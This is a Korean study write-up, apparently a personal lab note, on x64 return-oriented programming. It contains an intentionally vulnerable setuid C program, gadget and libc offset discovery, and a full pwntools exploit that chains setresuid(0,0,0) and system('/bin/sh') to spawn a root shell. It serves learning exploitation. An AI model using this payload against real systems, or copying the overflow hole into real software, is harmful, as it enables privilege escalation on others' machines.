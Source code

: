 # ROP(Return Oriented Programming) - x64

- ROP(x86) 에서 정리한 이론과 동일하다. 따라서 바로 실습을 할 예정이다.



## Proof of concept

### Code

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
 
void vuln(){
    char buf[50];
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    read(0, buf, 256);
}
 
void main(){
    seteuid(getuid());
    write(1,"Hello ROP\n",10);
    vuln();
}
```



### Build & Permission

![image](https://user-images.githubusercontent.com/59410565/119099930-62a50a80-ba52-11eb-8c44-5ddf3c4db03b.png)



### Overflow

![image](https://user-images.githubusercontent.com/59410565/119100048-823c3300-ba52-11eb-8927-dedfbf42bcf7.png)

**[Break Point]**

- vuln+0 : vuln 함수 코드 첫 부분
- vuln+68 : read() 함수 호출 전

![image](https://user-images.githubusercontent.com/59410565/119100338-cdeedc80-ba52-11eb-821a-6fd89c716116.png)

![image](https://user-images.githubusercontent.com/59410565/119100528-01316b80-ba53-11eb-8530-a9739248ec35.png)

![image](https://user-images.githubusercontent.com/59410565/119100565-0bec0080-ba53-11eb-8dd2-3c75d76e9ea4.png)

- Return address(0x7ffd9dab8c10) - buf 변수의 시작 주소(0x7ffd9dab8c10) = 72
- 즉, 72개 이상의 문자를 입력함으로써, Return address 영역을 변조할 수 있다.



## Exploit

#### Exploit 순서

1. setresuid 함수를 이용해 권한을 root(0)으로 변경
2. system 함수를 이용해 "/bin/sh" 실행

```python
setresuid(0, 0, 0)
system(binsh)
```



#### Payload를 구성하는데 필요한 정보

1. "/bin/sh" 문자열이 저장된 영역
2. libc offset 
   - printf
   -  system
   -  setresuid
3. 가젯의 위치
   - pop rdi, ret
   - pop rsi, ret
   - pop rdx, ret



### Find the Libc address of the "/bin/sh"

![image](https://user-images.githubusercontent.com/59410565/119102958-933a7380-ba55-11eb-863f-09df26685245.png)

![image](https://user-images.githubusercontent.com/59410565/119103024-a9483400-ba55-11eb-9c59-f5c7874a964b.png)

- 즉, "/bin/sh"의 offset은 0x18ce57이다.



### Get offset of printf, system, setresuid function

![image](https://user-images.githubusercontent.com/59410565/119103255-e6acc180-ba55-11eb-83da-1073c9f5889a.png)

- printf offset : 0x55810
- system offset : 0x453a0
- setresuid offset : 0xcd5f0



### Find gadget

> find gadgets
>
> > ROPgadget

![image](https://user-images.githubusercontent.com/59410565/119109467-27a7d480-ba5c-11eb-9b45-5c3dcd10f23c.png)

- pop rdi; ret : 0x00400843
- pop rsi; ret : 0x00400841
- rdx는 찾지 못하였다. 이런 경우 libc 파일에서 gadgets을 찾아 활용할 수 있다.

> find "popo rdx"
>
> > rp++

![image](https://user-images.githubusercontent.com/59410565/119103576-4c00b280-ba56-11eb-9d6c-26bb4e81df80.png)

- 해당 Exploit code에서는 0x001151c9 영역에 "pop rdx; pop rsi; ret;" 코드를 사용할 것이다. 



### Exploit Code

```python
from pwn import *
from struct import *
 
#context.log_level = 'debug'
 
#64bit OS - /lib/x86_64-linux-gnu/libc-2.23.so
libcbase_printf_offset = 0x55810
libcbase_system_offset = 0x453a0
libcbase_setresuid_offset = 0xcd5f0
 
binsh_offset = 0x18ce57
  
pop_rdi_ret = 0x00400843
pop_rsi_ret = 0x00400841
pop_rdx_ret_offset = 0x001151c9 
 
r = process('./rop')
 
r.recvn(10)
r.recvuntil('Printf() address : ')
libcbase = int(r.recvuntil('\n'),16)
libcbase -= libcbase_printf_offset
 
payload = "A"*72
payload += p64(pop_rdi_ret)
payload += p64(0)
payload += p64(libcbase + pop_rdx_ret_offset)
payload += p64(0)
payload += p64(0)
payload += p64(libcbase + libcbase_setresuid_offset)
 
payload += p64(pop_rdi_ret)
payload += p64(libcbase + binsh_offset)
payload += p64(libcbase + libcbase_system_offset)
 
r.send(payload)
 
r.interactive()
```



### Result

![image](https://user-images.githubusercontent.com/59410565/119110172-d2b88e00-ba5c-11eb-81e8-bd92ec4e1261.png)

